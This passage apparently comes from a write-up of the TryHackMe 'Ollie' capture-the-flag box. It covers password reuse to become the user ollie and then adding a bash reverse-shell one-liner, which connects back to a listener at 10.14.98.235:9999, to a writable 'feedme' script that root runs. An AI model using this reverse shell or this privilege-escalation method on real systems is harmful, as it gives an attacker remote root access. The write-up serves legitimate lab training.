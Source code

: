 This is bash script, only ollie and root have write privileges over it.

I enumerated a lot and thought how to get to ollie.

But in the end ollie was using the same password we used to login to phpIPAM.

```bash
su ollie
```

![image.png](/assets/images/Ollie_THM/image%2022.png)

Now lets edit the feedme bash script and add our reverse shell in it, also I will start a listener using netcat on port 9999.

The reverse shell is→

```bash
bash -c 'exec bash -i &>/dev/tcp/10.14.98.235/9999 <&1'
```

![image.png](/assets/images/Ollie_THM/image%2023.png)

And after sometime we get a hit back on our listener.

![image.png](/assets/images/Ollie_THM/image%2024.png)
